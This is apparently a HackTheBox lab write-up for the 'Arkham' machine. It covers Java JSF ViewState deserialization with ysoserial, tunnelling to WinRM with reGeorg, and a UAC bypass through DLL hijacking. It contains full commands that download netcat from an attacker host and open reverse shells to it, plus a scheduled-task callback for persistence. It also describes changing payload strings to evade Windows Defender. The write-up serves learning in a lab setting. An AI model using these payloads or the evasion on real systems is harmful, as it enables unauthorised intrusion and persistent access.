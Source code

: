 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-03-28-arkham-hackthebox
tags:
- deserialization
- hackthebox
- java
- tunneling
- uac bypass
- windows
title: Arkham @ HackTheBox
---
```


Arkham was a surprisingly hard box for the 30 points that were awarded for it, as I was struggling quite a bit, especially for the user part. However in the end i enjoyed the box a lot because it forced me to use stuff I don’t encounter often and therefore was a great learning experience. Techniques used are the exploitation of java deserialization vulnerability, traffic tunneling via aspx and an UAC bypass.

## User Flag

The initial nmap scans showed the following ports:

```
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
8080/tcp  open  http          Apache Tomcat 8.5.37
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-title: Mask Inc.
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
```

We start by looking at port 445 with `smbmap -H 10.10.10.130 -u 'anonymous'` and see the following shares:

```
[+] IP: 10.10.10.130:445    Name: arkham.htb
    Disk                                                    Permissions
    ----                                                    -----------
    ADMIN$                                             NO ACCESS
    BatShare                                            READ ONLY
    C$                                                 NO ACCESS
    IPC$                                               READ ONLY
    Users                                               READ ONLY
```

On "BatShare" we find a single zip archive called "appserver.zip" which we download. After unzipping we get a file called "backup.img", where we run `file` on and see that it’s a luks encrypted disk image.

```
backup.img: LUKS encrypted file, ver 1 [aes, xts-plain64, sha256] UUID: d931ebb1-5edc-4453-8ab1-3d23bb85b38e
```

I tried some default passwords but could not get it to decrypt so I used `binwalk -e` on it which surprisingly gave some usable files! To be honest I don’t really know why there would be clear text files in a luks encrypted image, maybe this situation was created artificially. In the extracted image we find a folder "Mask\\tomcat-stuff" in which we see several configuration files, one of them being "web.xml.bak". That files contains some relevant information:

```
<servlet-name>Faces Servlet</servlet-name>
<url-pattern>*.faces</url-pattern>
...
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
```

This looks like something in tomcat is encrypted and has an hmac with the sha1 algorithm. We also learned that there is some kind of java faces application on tomcat so it’  
s time to look at port 8080. We find a website there with a lot of dead links, but one of the linked pages catches the eye (`http://arkham.htb:8080/userSubscribe.faces`):

![](htb_arkham_subscribe.png)

When we enter something and send it through burp we see the following request:

```
POST /userSubscribe.faces HTTP/1.1
Host: arkham.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://arkham.htb:8080/userSubscribe.faces
Content-Type: application/x-www-form-urlencoded
Content-Length: 256
Cookie: JSESSIONID=B635ACF624EC87953F1C0A08F8C3195F
Connection: close
Upgrade-Insecure-Requests: 1

j_id_jsp_1623871077_1%3Aemail=dsa&j_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j_id_jsp_1623871077_1_SUBMIT=1&javax.faces.ViewState=wHo0wmLu5ceItIi%2BI7XkEi1GAb4h12WZ894pA%2BZ4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE%3D
```

The `javax.faces.viewState` parameter looks suspicious however when we base64 decode it, it gives nothing readable. Looking a bit in to java faces vulnerabilities we learn that the ViewState is potentially vulnerable to deserialization vulnerabilities. For example this [post](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html) gives some insight in how the ViewState is vulnerable.

The goto tool to exploit these kind of vulnerabilities is [ysoserial](https://github.com/frohoff/ysoserial), which can be used to create deserialization payloads for various libraries. However there remain 2 major problems – we have to find out which library is being used by the faces application and we have to encrypt the payload, generate an hmac, base64- and url encode it.

First of all I wrote a script that does the crypto and encoding which you can find [here](https://gist.github.com/xct/03d21af76686b549ec0639e6e7d57f22). Then, since I did not know much about the application I generated all of the ysoserial payloads, fed them into the script and then into burp. The payload that finally did it was generated like that:

```
java -jar ~/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections5 'powershell.exe -exec bypass Invoke-WebRequest "http://10.10.14.14:8000/nc64.exe" -OutFile "c:\windows\system32\spool\drivers\color\nc64.exe"' > xct_ra

python3 arkham.py xct_raw
```

The payload just downloads the 64-Bit version of netcat from our attacker box onto the target via powershell. After sending the payload we get a request on our local python webserver and see that the payload indeed worked.

Now we generate another payload that executes nc64.exe and get a shell as user "Alfred":

```
java -jar ~/tools/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections5 'c:\windows\system32\spool\drivers\color\nc64.exe 10.10.14.14 1337 -e cmd.exe' > xct_raw 

python3 arkham.py xct_raw
```

As Alfred we can now read the user flag.

## Root Flag

In Alfreds "Downloads" folder we find a file called "backup.zip" which we download and analyze. The contained file is called "alfred@arkham.local.ost" and a quick `file` on it reveals its type:

```
alfred@arkham.local.ost: Microsoft Outlook email folder
```

A quick convert via `readpst -rS` reveals the following content:

```
➜  alfred@arkham.local.ost1 ls -R
.:
 Calendar   Drafts   Inbox  'Sync Issues'

./Calendar:

./Drafts:
1  1-image001.png

./Inbox:

'./Sync Issues':
```

The image has the password of batman in it, which is `Zx^#QZX+T!123`. However as it turns out we can’t do too much with this password after all. It’s possible to connect via SMB to the Users share (what we did earlier anonymously), which confirms that the passwords works but I didn’t find any interesting files in it. When we look at the the user batman we notice that he is in the "Remote Management Users" group, which is the group windows uses for WinRM users:

```
...
Local Group Memberships      *Administrators       *Remote Management Use
                             *Users
Global Group memberships     *None
The command completed successfully.
```

S

ince WinRM is however only listening locally we have to find some way to pivot. Thinking back to another recent box and seeing that on tcp port 80 we have IIS running we use [reGeorg](https://github.com/sensepost/reGeorg) again to reach WinRM through a jsp tunnel. Getting the payload to work was a bit tricky since it got detected by windows defender. To make it work I changed some strings in the payload which to my surprise was enough too fool the av.

To get the proxy up we change the mentioned strings and upload the tunnel.jsp to `C:\tomcat\apache-tomcat-8.5.37\webapps\ROOT`. Then we adjust our local `/etc/proxychains.conf` to point to the local port (10000) we will start reGeorg on and then finally start reGeorg with `python reGeorgSocksProxy.py -u http://arkham.htb:8080/tunnel2.jsp -p 10000`. Now that the tunnel is running we use the ruby [shell](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb) by alamot together with proxychains to connect to WinRM as batman:

![](htb_arkham_regeorg_winrm.png)

It turns out the shell is actually pretty unstable and awkward so we create a scheduled task that connects back to us every minute (as user batman) to avoid using the tunnel more than necessary:

```
SchTasks /Create /SC minute /TN "xct" /TR "c:\windows\system32\spool\drivers\color\nc64.exe 10.10.14.14 9999 -e cmd.exe"
```

Sadly batman can’t read the root flag either. I was very lost on what is actually stopping batman from reading the flag or most other files that have full access for the administrators group that batman is a member of. After researching the issue for a while I found that it is actually UAC that is blocking most stuff that requires admin privileges. So how can we bypass it ? There exist several ways to bypass UAC, I found a nice [blogpost](https://egre55.github.io/system-properties-uac-bypass/) by [egre55](https://twitter.com/egre55) that has a bypass which abuses the library path load order of some windows binaries, effectively loading a malicious dll for us.

To exploit it we just have to create a [simple dll](https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0) and put it under "C:\\Users\\Batman\\AppData\\Local\\Microsoft\\WindowsApps\\". Then we call the binaries that can potentially load our dll…

```
SystemPropertiesAdvanced.exe
SystemPropertiesComputerName.exe
SystemPropertiesHardware.exe
SystemPropertiesProtection.exe
SystemPropertiesRemote.exe
```

…and wait for the bind shell specified in the dll to open. After a moment it opens, we connect to it via nc to localhost and can read the root flag.

This box was very challenging and fun for me, many thanks to [MinatoTW](https://twitter.com/MinatoTW_) for creating it.